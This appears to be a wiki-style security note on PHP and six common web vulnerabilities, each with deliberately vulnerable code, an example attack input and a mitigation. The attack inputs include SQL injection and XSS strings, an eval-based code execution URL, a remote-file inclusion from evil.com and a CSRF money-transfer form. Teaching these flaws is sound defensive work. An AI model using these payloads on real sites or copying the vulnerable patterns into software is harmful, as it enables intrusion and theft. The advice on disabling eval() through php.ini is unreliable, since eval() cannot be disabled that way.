 ## Overview
PHP (Hypertext Preprocessor) is a popular server-side scripting language widely used for web development. It is embedded into HTML and is known for its ease of use and flexibility. However, due to its popularity and broad deployment, PHP web applications are common targets for attackers, often due to insecure coding practices.

## Features
- **Server-Side Scripting:** PHP scripts are executed on the server, generating HTML sent to the client.
- **Database Interaction:** PHP can connect to and interact with various databases, including MySQL, PostgreSQL, and SQLite.
- **Session Management:** Built-in functions for handling user sessions and authentication.
- **File Handling:** Allows reading, writing, and manipulation of files on the server.
- **Integration:** Easily integrates with HTML, JavaScript, and CSS, making it a staple in web development.

## Website
- [PHP Official Website](https://www.php.net/)

## Common Vulnerabilities in PHP Web Applications

### 1. **SQL Injection**
   - **Description:** Occurs when user input is improperly sanitized and directly incorporated into SQL queries, allowing attackers to execute arbitrary SQL commands.
   - **Exploitation:**
     ```php
     <?php
     $username = $_GET['username'];
     $query = "SELECT * FROM users WHERE username = '$username'";
     ?>
     ```
   - **Exploitation Vector:** An attacker can manipulate the `$username` parameter to inject SQL code:
     ```
     http://example.com/login.php?username=admin' OR '1'='1
     ```
   - **Mitigation:** Use prepared statements with bound parameters.
     ```php
     <?php
     $stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
     $stmt->execute([$username]);
     ?>
     ```

### 2. **Cross-Site Scripting (XSS)**
   - **Description:** Occurs when user input is improperly sanitized and then rendered in a web page, allowing attackers to inject malicious scripts.
   - **Exploitation:**
     ```php
     <?php
     echo "Hello, " . $_GET['name'];
     ?>
     ```
   - **Exploitation Vector:** An attacker can inject a script via the `name` parameter:
     ```
     http://example.com/greet.php?name=<script>alert('XSS')</script>
     ```
   - **Mitigation:** Use `htmlspecialchars()` to escape output.
     ```php
     <?php
     echo "Hello, " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
     ?>
     ```

### 3. **Remote Code Execution (RCE)**
   - **Description:** Occurs when user input is directly executed as code, allowing attackers to run arbitrary commands on the server.
   - **Exploitation:**
     ```php
     <?php
     eval($_GET['code']);
     ?>
     ```
   - **Exploitation Vector:** An attacker can execute arbitrary PHP code:
     ```
     http://example.com/exec.php?code=phpinfo();
     ```
   - **Mitigation:** Avoid using `eval()` with user input. Use strict input validation and sanitization.

### 4. **File Inclusion**
   - **Description:** Includes local or remote files based on user input, allowing attackers to execute malicious scripts.
   - **Exploitation:**
     ```php
     <?php
     include($_GET['page']);
     ?>
     ```
   - **Exploitation Vector:** An attacker can include arbitrary files:
     ```
     http://example.com/index.php?page=http://evil.com/malicious.php
     ```
   - **Mitigation:** Use `basename()` to sanitize filenames and avoid including files from user input. Disable `allow_url_include` in `php.ini`.

### 5. **File Upload Vulnerabilities**
   - **Description:** Improper handling of file uploads can lead to arbitrary file uploads, allowing attackers to upload malicious scripts.
   - **Exploitation:** Uploading a PHP file disguised as an image.
   - **Mitigation:** Validate file types using MIME type checks, restrict file extensions, and store files outside the web root.

### 6. **Cross-Site Request Forgery (CSRF)**
   - **Description:** Forces a user to execute unwanted actions on a web application in which they are authenticated.
   - **Exploitation Vector:** Sending a malicious link or form to a user:
     ```html
     <form action="http://example.com/transfer.php" method="POST">
         <input type="hidden" name="amount" value="1000">
         <input type="hidden" name="to_account" value="attacker_account">
         <input type="submit">
     </form>
     ```
   - **Mitigation:** Use CSRF tokens in forms and validate them on the server side.

## Tools for Exploiting PHP Applications
- **[[Burp Suite]]:** Used for intercepting and modifying HTTP requests, ideal for testing SQLi, XSS, and other web vulnerabilities.
- **[[Metasploit]]:** Contains modules for exploiting web applications, including PHP-based exploits.
- **[[SQLMap]]:** Automated tool for SQL injection testing and exploitation.
- **[[FoxyProxy]]:** Used in conjunction with Firefox to easily manage proxy settings while testing web applications.

## Best Practices
- **Input Validation and Sanitization:** Always validate and sanitize user inputs to prevent SQL injection, XSS, and other injection attacks.
- **Use Secure Coding Practices:** Follow secure coding guidelines such as OWASP to avoid common vulnerabilities.
- **Keep PHP and Libraries Updated:** Regularly update PHP and any libraries to mitigate known vulnerabilities.
- **Use Security Extensions:** Utilize security extensions like `Suhosin` for additional protection.
- **Configure `php.ini` Securely:** Disable dangerous functions such as `eval()`, `exec()`, `shell_exec()`, and configure proper error reporting settings.

## References
- [PHP Official Website](https://www.php.net/)
- [OWASP PHP Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/PHP_Security_Cheat_Sheet.html)
- [PHP Secure Coding Guidelines](https://www.php.net/manual/en/security.php)
- [Exploit-DB PHP Vulnerabilities](https://www.exploit-db.com/search?q=php&platform=php)

